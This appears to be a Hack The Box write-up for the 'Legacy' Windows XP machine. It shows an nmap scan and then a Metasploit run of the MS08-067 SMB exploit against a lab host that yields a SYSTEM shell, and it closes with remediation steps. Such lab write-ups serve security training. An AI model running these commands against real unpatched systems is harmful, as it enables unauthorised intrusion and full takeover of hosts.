

# HTB — Legacy (Easy, Windows)

## Overview

Legacy is an easy Windows machine running an end-of-life Windows XP host. It is exploited through MS08-067 (CVE-2008-4250), a critical SMB remote code execution flaw, for a direct SYSTEM shell.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC -Pn 10.129.227.181
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds

Host script results:
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   Computer name: legacy
|_  message_signing: disabled (dangerous, but default)
````

The target is an unpatched Windows XP host with SMB exposed on ports 139 and 445.

## Exploitation

### MS08-067 (CVE-2008-4250)

Windows XP exposing SMB is vulnerable to MS08-067, a critical remote code execution flaw in the Windows Server service, triggered by a crafted RPC request over SMB. It allows an unauthenticated attacker to execute code as SYSTEM and is wormable. The host was unpatched, so I exploited it with the corresponding Metasploit module:

````
msf6 > use exploit/windows/smb/ms08_067_netapi
msf6 > set RHOSTS 10.129.227.181
msf6 > run
````

The exploit returned a session as `NT AUTHORITY\SYSTEM`, giving full control of the host with no separate privilege-escalation step:



````
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
````

## Remediation

- **Patch MS08-067:** Apply the MS08-067 update, or decommission the end-of-life Windows XP host.
- **Disable SMBv1 / legacy protocols:** Remove SMBv1 and NetBIOS where not required.
- **Network exposure:** Never expose SMB (139/445) to untrusted networks.
````
````